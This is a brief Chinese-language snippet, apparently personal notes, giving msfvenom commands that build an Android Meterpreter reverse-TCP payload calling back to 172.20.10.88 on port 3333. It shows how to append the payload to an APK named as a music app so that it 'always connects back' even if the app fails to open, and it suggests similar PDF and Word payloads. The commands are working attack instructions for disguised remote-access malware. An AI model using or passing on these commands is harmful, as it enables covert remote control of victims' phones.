`msfvenom -p  android/meterpreter/reverse_tcp lhost=172.20.10.88 lport=3333  R > en.apk`

加一个 `R` 可以正常使用

`msfvenom -p  android/meterpreter/reverse_tcp lhost=172.20.10.88 lport=3333   R >> 废柴音乐v2.0.apk`

附加模版上去，不一定能打开，但一定能连返回链接

> 可以使用类似的`pdf`，`word` 等ayload来实现返回链接